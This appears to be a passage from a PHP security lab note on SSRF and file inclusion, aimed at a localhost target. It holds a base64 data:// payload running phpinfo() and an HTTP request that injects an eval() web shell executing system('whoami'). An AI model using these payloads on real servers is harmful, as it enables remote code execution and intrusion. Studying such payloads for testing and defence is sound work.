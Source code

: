 ![image.png](./SSRF.assets/2023_05_19_10_39_35_wlK3CEOz.png)



```http
data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```
![image.png](./SSRF.assets/2023_05_19_10_39_36_2nhMxevI.png)



```http
POST /index.php?url=data://text/plain,<?php+@eval($_POST['cmd']); HTTP/1.1
Host: 127.0.0.1
sec-ch-ua: "Chromium";v="91", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 21

cmd=system('whoami');
```
